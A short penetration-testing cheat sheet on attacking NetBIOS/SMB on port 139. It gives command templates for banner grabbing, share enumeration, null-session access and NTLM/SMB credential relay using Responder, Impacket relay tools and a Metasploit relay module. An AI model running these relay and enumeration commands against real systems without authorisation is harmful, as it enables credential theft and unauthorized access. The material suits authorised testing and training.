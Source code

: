 #### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 139
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

\


*   **Tool:** \[\[SMBClient]], \[\[NBTStat]]

    ```bash
    smbclient -L <target_ip>
    ```
* **Description:** Enumerates the shares and services available via NetBIOS Session Service.

### Initial Access

#### Null Session

*   **Connect via Null Session:** Exploits unauthenticated connections to gather information from a target system.

    ```bash
    smbclient -L //<target_ip>/IPC$ -N
    ```

#### \[\[Relay Attacks]]

*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-NTLMRelayX Cheat Sheet]]

    ````bash
    impacket-ntlmrelayx -tf targets.txt -smb2support
    sudo responder -I <interface>
        ```
    ````

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Impacket-SMBRelayX]]

    ```bash
    impacket-smbrelayx -t <target_ip> -r <relay_ip>
    sudo responder -I <interface>    
    ```

\


*   **Tool:** \[\[Responder Cheat Sheet]], \[\[Metasploit]]

    ```bash
    msfconsole -x "use auxiliary/server/smb_relay; set TARGET <target_ip>; run"
    sudo responder -I <interface>    
    ```
* **Description:** Exploit NetBIOS name resolution to relay captured credentials to an SMB service, potentially gaining unauthorized access.
